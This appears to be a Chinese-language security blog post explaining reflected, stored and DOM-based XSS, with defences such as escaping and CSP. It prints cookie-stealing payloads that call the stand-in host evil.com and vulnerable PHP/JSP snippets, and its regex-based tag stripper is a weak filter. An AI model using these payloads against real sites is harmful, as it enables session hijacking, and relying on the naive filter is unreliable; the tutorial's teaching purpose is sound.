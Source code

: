 ```yaml
---
title: XSS（Cross-Site Scripting，跨站腳本攻擊） 介紹與防禦方法
date: 2025-02-09 21:59:32
tags:
- XSS
- 前端
- 資安
categories: 資安
---
```

XSS（跨站腳本攻擊）的核心原理是 **攻擊者設法將惡意 JavaScript 代碼注入到合法網站的 HTML 內**，使受害者的瀏覽器執行這段代碼，進而竊取Cookie、劫持Session或其他攻擊。

這通常透過以下方式達成：

1. **反射型 XSS（Reflected XSS）**
2. **儲存型 XSS（Stored XSS）**
3. **DOM 型 XSS（DOM-based XSS）**

---

# **反射型 XSS（Reflected XSS）**

最常見的 XSS 攻擊類型，攻擊者將惡意代碼嵌入 URL 或請求參數，利用社交工程釣魚的技巧，當受害者打開該連結時，網站會直接回應並執行這段代碼。

### **攻擊流程**

1. **攻擊者構造惡意 URL**，例如：
    
    ```
    https://example.com/search?query=<script>alert('XSS')</script>
    ```
    
2. **網站回應時直接插入該參數值**：
    
    ```
    <p>您搜尋的關鍵字是：<%= request.getParameter("query") %></p>
    ```
    
3. **透過社交工程手法，受害者點擊該 URL，瀏覽器解析後執行惡意 JavaScript**，彈出 `alert('XSS')`，或更惡意的：

攻擊者可竊取使用者的 Session Cookie，進行 **帳號劫持**。
    
    ```jsx
    <script>
        fetch('https://evil.com/steal?cookie=' + document.cookie);
    </script>
    ```
    

---

# **儲存型 XSS（Stored XSS）**

攻擊者將惡意代碼儲存到網站的資料庫，當其他用戶瀏覽時，這段代碼會自動執行。

### **攻擊流程**

1. **攻擊者在網站的可輸入區域提交惡意代碼**：
    
    ```html
    <script>fetch('https://evil.com/steal?cookie=' + document.cookie)</script>
    ```
    
2. **網站將該內容儲存到資料庫**，如：
    
    ```sql
    INSERT INTO comments (user, content) VALUES ('hacker', '<script>...</script>');
    ```
    
3. **當其他用戶瀏覽該頁面時，瀏覽器解析並執行惡意 JavaScript**。

### **攻擊範例**

如果留言板程式如下：

```php
<?php
echo "<p>使用者留言：" . $_POST['comment'] . "</p>";
?>
```

攻擊者提交：

```
<script>fetch('https://evil.com/steal?cookie=' + document.cookie)</script>
```

當其他用戶查看留言時，這段腳本就會竊取他們的 Cookie，導致 **Session 劫持**。

1. **避免 `innerHTML`，使用 `textContent`**

---

# **DOM 型 XSS（DOM-based XSS）**

此手法和反射型 XSS一樣，都需要使用社交工程釣魚的技巧，使 User 點擊 URL 攻擊才會生效。

### **攻擊流程**

1. **攻擊者提供惡意的 URL**
    
    ```
    https://example.com/#<script>alert('XSS')</script>
    ```
    
2. **網站讀取 URL 片段並插入 DOM**
    
    ```
    document.getElementById('result').innerHTML = location.hash;
    ```
    
3. **導致 JavaScript 被執行**
    
    ```html
    <script>alert('XSS')</script>
    ```
    

---

## **總結 & 該如何防禦?**

| XSS 類型 | 攻擊方式 | 防禦方法 |
| --- | --- | --- |
| **反射型 XSS** | 透過 URL 參數傳遞惡意腳本 | HTML 轉義、CSP |
| **儲存型 XSS** | 惡意腳本儲存在伺服器 | HTML 轉義、CSP |
| **DOM 型 XSS** | 前端 JavaScript 操作 DOM，導致腳本執行 | 避免 `innerHTML`，使用 `textContent` |

透過正確的輸入驗證、HTML 轉義、CSP 限制等措施，可以有效防止 XSS 攻擊。 

### **1. 輸入驗證與過濾**

對所有用戶輸入進行驗證和過濾，尤其是涉及 HTML 標籤或 JavaScript 的輸入。

示例：

```jsx
const sanitizeInput = (input) => {
  return input.replace(/<[^>]*>?/gm, ''); // 移除所有 HTML 標籤
};

```
---

### **2. 輸出編碼**

在輸出到網頁前將資料進行編碼，防止瀏覽器將其當作 HTML 或 JavaScript 執行。

示例：前端使用編碼函數

```jsx
const escapeHTML = (str) => {
  const div = document.createElement('div');
  div.appendChild(document.createTextNode(str));
  return div.innerHTML;
};
const safeOutput = escapeHTML(userInput); // 防止 XSS

```
---

### **3. 使用內容安全策略 (CSP)**

透過 CSP 限制瀏覽器允許的資源來源，防止惡意腳本執行。

```
Content-Security-Policy: script-src 'self';
```
---

### **4. 避免直接插入 HTML**

使用框架的模板引擎（如 React、Vue、Angular），這些框架會自動進行 XSS 防禦。